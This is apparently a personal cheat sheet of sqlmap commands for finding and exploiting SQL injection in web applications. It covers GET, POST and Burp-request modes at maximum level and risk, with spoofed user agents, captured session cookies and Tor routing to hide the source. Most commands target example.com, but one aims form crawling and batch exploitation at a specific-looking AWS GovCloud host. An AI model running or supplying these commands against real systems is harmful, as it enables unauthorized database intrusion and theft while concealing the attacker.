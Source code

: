 

# install

    brew install sqlmap
    

# usage

example usage

    sqlmap --user-agent "test" --url "https://example.com" --threads=4 --dbms MySQL --level=5 --risk=3 --banner --answers="union-char=Y" --keep-alive --eta -v 3


## GET

    sqlmap --dbms MySQL --banner -u "https://example.com/api/user/*" -v 4 --random-agent --threads 2 --cookie="JSESSIONID=23469E1D65EE8ECFA2D3620BDD5102B3;" 

## POST

    sqlmap --user-agent "test" --url "https://example.com" --cookie="JSESSIONID=AB29721D2EBA6A05E59F57DEFA0CD5E9;"  -p "userid"  --level 5 
    
sqlmap -u https://boutte-reanplatform-dockerhost-208184116.us-gov-west-1.elb.amazonaws.com/reandeploy#/home/dnow/1 --forms --batch --crawl=10 --cookie="JSESSIONID=9C8352B26D684A5D1AA725628B0082EE;" --level=5 --risk=3



## burp suite

attach post request with configuration coming from burp file
    
    sqlmap -r search-test.txt -p "param1,param2,param3" --dbms MySQL --banner --random-agent --tor --tor-check --threads 2